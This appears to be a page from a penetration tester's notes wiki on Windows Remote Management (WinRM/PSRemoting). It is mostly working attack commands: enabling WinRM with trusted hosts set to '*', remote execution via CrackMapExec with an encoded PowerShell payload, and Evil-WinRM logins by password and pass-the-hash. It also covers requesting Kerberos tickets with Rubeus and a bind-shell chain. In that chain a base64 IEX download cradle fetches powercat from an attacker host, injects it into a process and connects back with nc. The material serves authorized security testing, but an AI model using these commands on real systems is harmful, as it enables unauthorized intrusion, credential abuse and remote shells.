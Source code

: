 ```yaml
---
description: Windows Remote Management / PowerShell Remoting
---
```


# WinRM / PSRemoting

* [https://www.bloggingforlogging.com/2018/01/24/demystifying-winrm/](https://www.bloggingforlogging.com/2018/01/24/demystifying-winrm/)
* [https://www.powershellmagazine.com/2014/03/06/accidental-sabotage-beware-of-credssp/](https://www.powershellmagazine.com/2014/03/06/accidental-sabotage-beware-of-credssp/)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons)
* [https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm)




## Enable WinRM

Using PowerShell (takes ~1m to be applied):

```
PS > Enable-PSRemoting -Force
PS > Set-Item wsman:\localhost\client\trustedhosts * -Force
```

Remotely with CME:

```
$ cme smb 10.10.13.37 -u snovvcrash -p 'Passw0rd!' -x 'powershell -enc RQBuAGEAYgBsAGUALQBQAFMAUgBlAG0AbwB0AGkAbgBnACAALQBGAG8AcgBjAGUAOwBTAGUAdAAtAEkAdABlAG0AIAB3AHMAbQBhAG4AOgBcAGwAbwBjAGEAbABoAG8AcwB0AFwAYwBsAGkAZQBuAHQAXAB0AHIAdQBzAHQAZQBkAGgAbwBzAHQAcwAgACoACgA=' --no-output
```




## From Windows

* [https://0xdf.gitlab.io/2019/08/17/htb-helpline-win.html#enable-winrm](https://0xdf.gitlab.io/2019/08/17/htb-helpline-win.html#enable-winrm)

```
PS > winrm get winrm/config
PS > winrm set winrm/config/client '@{TrustedHosts="*"}'
PS > $sess = New-PSSession -ComputerName 192.168.11.1 -Credential $cred
PS > Enter-PSSession -Session $sess
PS > Copy-Item .\file.txt -Destination "C:\users\administrator\music\" -ToSession $sess
```




## From Linux



### Evil-WinRM

* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)
* [https://github.com/adityatelange/evil-winrm-py](https://github.com/adityatelange/evil-winrm-py)

Basic syntax:

```
$ evil-winrm -u '[MEGACORP\]snovvcrash' -p 'Passw0rd!' -i 10.10.13.37 -s `pwd` -e `pwd`
$ evil-winrm -u '[MEGACORP\]snovvcrash' -H fc525c9683e8fe067095ba2ddc971889 -i 10.10.13.37 -s `pwd` -e `pwd`
```

{% hint style="info" %}
Always use full username when authenticating as a domain user, because if there're 2 users sharing the same name (a local user and a domain user), say `WORKGROUP\Administrator` and `MEGACORP\Administrator`, and you're trying to authenticate as a domain admin without providing the domain prefix, authentication will fail.
{% endhint %}

Execute a .NET binary:

```
*Evil-WinRM* PS > Invoke-Binary Rubeus.exe "asktgt, /domain:megacorp.local, /user:snovvcrash, /rc4:fc525c9683e8fe067095ba2ddc971889, /nowrap"
```

Spawn interactive bind shell with [powercat.ps1](https://github.com/besimorhino/powercat/blob/master/powercat.ps1) and [Invoke-PSInject.ps1](https://github.com/EmpireProject/PSInject/blob/master/Invoke-PSInject.ps1):

```
$ sed -i s/powercat/pwcat/g pwcat.ps1
$ echo 'powercat -l -p 1337 -e cmd.exe' >> pwcat.ps1
$ echo 'IEX(New-Object Net.WebClient).DownloadString(''http://10.10.13.37/pwcat.ps1'')' | iconv -t UTF-16LE | base64 -w0
*Evil-WinRM* PS > Get-Process
*Evil-WinRM* PS > Invoke-PSInject.ps1
*Evil-WinRM* PS > Invoke-PSInject -ProcId <PID> -PoshCode <BASE64_CMD>
$ rlwrap nc 192.168.1.11 1337
```

Install Python version:

```
$ pip install evil-winrm-py 'evil-winrm-py[kerberos]'
```



### pwsh

```
$ pwsh
PS > $sess = New-PSSession -ComputerName 192.168.11.1 -Credential $cred -Authentication Negotiate
PS > Enter-PSSession -Session $sess
```
